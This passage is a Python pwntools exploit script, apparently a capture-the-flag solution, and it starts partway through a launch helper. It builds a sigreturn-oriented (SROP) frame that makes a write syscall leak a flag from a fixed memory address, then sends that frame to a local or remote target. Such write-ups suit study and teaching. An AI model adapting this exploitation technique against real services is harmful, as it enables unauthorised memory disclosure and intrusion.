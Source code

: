 ```python
                gdb.debug(
                    [elf.path] + (argv or []), gdbscript=gdbscript, aslr=aslr, env=envp
                )
                if debug
                else process([elf.path] + (argv or []), env=envp)
            )
        else:
            target = remote(HOST, PORT)
        yield target
    finally:
        if target:
            target.close()


def construct_payload():
    flag_address = 0x10000023

    rop = ROP(elf)

    syscall = rop.syscall.address

    frame = SigreturnFrame()

    frame.rdi = 0x1
    frame.rsi = flag_address
    frame.rdx = 0x1337
    frame.rax = constants.SYS_write
    frame.rip = syscall

    return bytes(frame)


def attack(target):
    try:
        payload = construct_payload()

        target.send(payload)

        response = target.recvall(timeout=3)

        if b"flag" in response:
            log.success(response[:0x27].decode("ascii"))

            return True
    except Exception as e:
        log.exception(f"An error occurred while performing attack: {e}")


def main():
    try:
        with launch(debug=False) as target:
            if attack(target):
                log.success("Attack completed successfully.")
            else:
                log.failure("Attack did not yield a flag.")
    except Exception as e:
        log.exception(f"An error occurred in main: {e}")


if __name__ == "__main__":
    main()
```
